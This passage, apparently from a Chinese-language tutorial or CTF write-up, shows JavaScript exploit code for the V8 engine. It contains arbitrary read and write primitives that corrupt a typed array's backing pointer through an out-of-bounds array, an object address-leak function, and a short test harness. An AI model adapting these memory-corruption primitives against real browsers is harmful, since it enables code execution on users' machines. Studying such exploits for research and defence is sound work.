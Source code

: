 ```javascript
        }
        sc.push(tmp);
    }

    let len = payload.length%8;
    tmp = 0n;
    for(let i=0n; i<len; i++){
        tmp += BigInt(payload[len_bigint*8n+i])*(0x1n<<(8n*i));
    }
    sc.push(tmp);
    return sc;
}
// 任意地址写
function arw_write(addr, payload)
{
	sc = byte_to_bigint_array(payload);

    oob_array[uint64_length_offset] = i2f(BigInt(sc.length));
    oob_array[uint64_baseptr_offset] = i2f(0n);
	oob_array[uint64_externalptr_offset] = i2f(addr);
    for(let i = 0; i < sc.length; i+=1) {
		uint64_arw[i] = sc[i];
    }
}
// 任意地址读
function arw_read(addr, payload)
{
    oob_array[uint64_baseptr_offset] = i2f(0n);
	oob_array[uint64_externalptr_offset] = i2f(addr);
	let ret = big_array[0];
	return ret;
}
// 地址泄露
obj_leader_offset = 0x16;
function addr_of(obj) {
	obj_leaker.b = obj;
	let half = f2half(oob_array[obj_leader_offset]);	// half[0]为低32位，half[1]为高32位
	// 标记在低32字节，对象在高32字节
	if (half[0] == 0xc00c) {
		return compress_head_high32_addr + BigInt(half[1]);
	}
}

confusion_to_oob();
get_arw();
%DebugPrint(oob_array);
console.log("test!!!addr_of(obj):" + hex(addr_of(oob_array)));
```

结尾是为了测试一下，执行之后看一下效果：
